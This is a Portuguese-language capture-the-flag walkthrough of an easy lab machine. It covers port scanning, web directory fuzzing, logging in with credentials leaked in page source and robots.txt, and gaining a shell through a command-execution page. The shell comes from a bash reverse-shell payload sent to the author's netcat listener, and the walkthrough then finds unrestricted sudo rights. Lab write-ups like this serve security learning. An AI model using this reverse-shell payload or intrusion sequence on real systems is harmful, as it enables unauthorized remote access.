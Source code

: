 #easy #ctf
# Reconhecimento
Primeiramente devemos fazer um reconhecimento para tentarmos descobrir quais portas estão abertas, qual o OS e etc.

### Enumeração de portas
```sh
nmap 10.10.190.51 -sV -sC -A -Pn
```
![[Pasted image 20250218185817.png]]
`-sV` : Tenta enumerar versões de serviços.
`-sC` : Executa scripts padrão.
`-A` : Faz uma enumeração mais profunda.
`-Pn` : Não envia pacotes ICMP. Alguns hosts bloqueiam endereços que enviam esses pacotes.
### Código WEB
Identificamos duas portas abertas, **80(HTTP)** e **22(SSH)**. Podemos acessar a porta 80 via browser para ver o que tem lá.

![[Pasted image 20250218190428.png]]
Embora algumas mensagens engraçadas não vi nada de realmente útil aqui. Podemos tentar ver o código web pressionando `ctrl+u`.

![[Pasted image 20250218190655.png]]
Encontramos o usuário citado pelo Rick anteriormente: `R1ckRul3s`. Como já olhamos a página inicial, podemos então fazer uma enumeração WEB.
### Enumeração WEB
Devemos verificar quais pastas ou arquivos estão presentes no site, para isso fazemos uma enumeração na URL do site.

Temos que lembrar que o servidor que está rodando é o Apache que normalmente é usado com PHP. Podemos adicionar a extensão `.php` nas nossas tentativas.

```sh
ffuf -u http://10.10.190.51/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .php
```
![[Pasted image 20250218194911.png]]
`-u` : O site que vamos enumerar, devemos colocar a palavra `FUZZ` onde queremos que ele faça a enumeração.
`-w` : O caminho da lista de palavras que vamos usar.
`-e` : Alguma extensão que ele irá adicionar no final de cada palavra, podemos passar mais de uma separados por vírgula como: `.php,.js`

Agora que temos uma lista de recursos, podemos tentar acessa-los. Sempre começo pelo `robots.txt`, pois ele armazena as configurações de como os buscadores devem indexar o conteúdo.
###### /robots.txt
![[Pasted image 20250218195741.png]]
Nada demais, apenas o texto `Wubbalubbadubdub`, talvez seja útil .

---
# RCE
Temos outro recurso de nome interessante: `login.php`.
###### /login.php
![[Pasted image 20250218200328.png]]
Interessante, uma página de login, já temos um usuário fornecido na página inicial: `R1ckRul3s`, podemos tentar usar como senha o texto em `/robots.txt`: `Wubbalubbadubdub`.

![[Pasted image 20250218201821.png]]
Aparentemente podemos executar comandos por esse input, podemos colocar um reverse shell para testar se funciona.

Primeiro verifico meu IP da VPN.
```sh
ip addr
```
![[Pasted image 20250218202814.png]]

Então podemos começar a escutar uma porta escolhida para receber a conexão, no nosso caso a porta `4545`:
```sh
nc -lvnp 4545
```

Agora podemos mandar a nossa payload no input. 
![[Pasted image 20250218203112.png]]Payload : `bash -c 'bash -i >& /dev/tcp/10.9.238.50/4545 0>&1'`

![[Pasted image 20250218203154.png]]
Conseguimos, obtivemos um shell na máquina. E já conseguimos achar o arquivo com o primeiro ingrediente: `Sup3rS3cretPickl3Ingred.txt`

---
# PRIV ESC
Como nosso usuário é um usuário padrão, podemos tentar escalar o privilégio para um usuário com mais privilégios, mas primeiro devemos ver os nosso privilégios atuais.

Gosto de começar vendo quais comandos posso executar com `sudo`.
```sh
sudo -l
```
![[Pasted image 20250218203722.png]]
Por algum motivo, podemos executar qualquer comando como `root`, então nem precisaremos escalar nossos privilégios.

---
# Reconhecimento do OS
Podemos averiguar as pastas `home` de cada usuário para verificar se achamos algo.

```sh
ls /home/
```
![[Pasted image 20250218204230.png]]
```sh
ls /home/ubuntu/
ls /home/rick/
```
![[Pasted image 20250218204340.png]]
Encontramos o arquivo do segundo ingrediente: `second ingredients`

```sh
ls /root/
```
![[Pasted image 20250218204504.png]]
Achamos o arquivo do terceiro ingrediente: `3rd.txt`